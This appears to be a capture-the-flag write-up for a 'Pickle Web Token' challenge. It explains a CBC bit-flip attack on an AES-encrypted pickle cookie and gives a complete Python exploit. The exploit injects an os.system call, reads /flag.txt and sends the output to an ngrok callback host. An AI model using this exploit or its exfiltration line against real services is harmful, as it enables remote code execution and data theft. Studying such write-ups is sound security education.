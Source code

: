 # PWT

Introducing better JWT alternative, Pickle Web Token!

## Description

Escape from prolog!

## Writeup

PWT uses AES CBC mode. Hence, you can use CBC bitflip attack to inject at most 15 bits to the pickle payload.

`pickle.dumps` adds `MEMOIZE` opcode every time it pushes something. You can push the memoized value to stack with `BINGET` opcode.  

```python
import requests
from base64 import b64encode, b64decode
import pickle
from struct import pack

URL = "http://localhost:8000/"
EVIL = "https://xxx.ngrok.app/"

payload = (
    pickle.GLOBAL + b"os\nsystem\n" +
    pickle.BINGET + pack('b', 0) + 
    pickle.TUPLE1 +
    pickle.REDUCE + 
    b"\x01"
)
assert len(payload) <= 16
expected = (
    pickle.MEMOIZE +
    pickle.TUPLE2 +
    pickle.MEMOIZE +
    pickle.STOP +
    b"\x0c" * 0x0c
)

s = requests.session()

cmd = "cat /flag.txt"
code = f"python -c \"from urllib.request import urlopen;import os;urlopen('{EVIL}',data=os.popen('{cmd}').read().encode())\""
r = s.post(URL + "register", data={
    "username": code + " " * (16 - (len(code) % 16))
})
print(r.status_code)
print(r.text)
pkl = bytearray(b64decode(s.cookies["pkl"].encode()))

for i in range(len(payload)):
    pkl[i + (len(code)//16)*16 + 48] ^= expected[i] ^ payload[i]

del s.cookies["pkl"]
s.cookies["pkl"] = b64encode(pkl).decode()
r = s.get(URL)
print(r.status_code)
print(r.text)
```